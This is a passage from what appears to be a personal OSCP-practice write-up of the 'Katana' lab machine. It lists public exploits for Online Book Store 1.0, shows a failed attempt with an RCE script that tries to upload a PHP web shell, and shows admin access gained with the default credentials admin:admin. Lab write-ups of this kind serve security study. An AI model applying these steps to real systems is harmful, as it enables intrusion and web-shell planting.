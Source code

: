 ```
Online Book Store 1.0 - 'id' SQL Injection                                          | php/webapps/48775.txt
Online Book Store 1.0 - Arbitrary File Upload                                       | php/webapps/47928.txt
Online Book Store 1.0 - Unauthenticated Remote Code Execution                       | php/webapps/47887.py
```

Particularly promising are the RCE and the Arbitrary File Upload.

I tried the RCE first and the script did not work:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana/exploit]
└─$ python3 47887.py http://katana/ebook/
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell failed to upload! The web server may not have write permissions.
```

Moving on to the file upload exploit, its just an explanation pointing out that you can upload any file as the image of a book as an administrator. I'll try to do this from the website itself.

I navigate to the admin page from the home page ("Admin Login" hyperlink on the bottom right of the homepage).

![](./assets/admin.png)

I manage to authenticate with crdentials `admin:admin`, and then I can see an admin view of the books in the bookstore.
